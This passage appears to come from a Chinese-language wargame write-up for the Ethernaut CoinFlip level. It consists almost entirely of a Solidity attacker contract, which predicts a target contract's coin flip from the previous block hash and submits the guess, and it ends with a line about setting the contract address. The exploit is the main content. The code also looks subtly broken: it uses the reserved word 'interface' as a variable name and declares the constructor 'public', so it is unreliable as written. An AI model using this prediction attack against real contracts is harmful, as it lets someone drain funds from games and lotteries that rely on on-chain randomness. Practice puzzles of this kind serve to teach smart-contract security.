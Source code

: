```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

interface  CoinFlipInterface {
    function flip(bool) external returns(bool);
}

contract CoinFlipAttacker{
    
    using SafeMath for uint256;
    address private addr;
    CoinFlipInterface interface;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _addr) public {
        addr = _addr;
        interface = CoinFlipInterface(_addr);
    }

    function getFlip() private returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
                        
    function attack() public {
        bool side = getFlip();
        interface.flip(side);
    }

}
```

设置相关参数（合约地址等）：
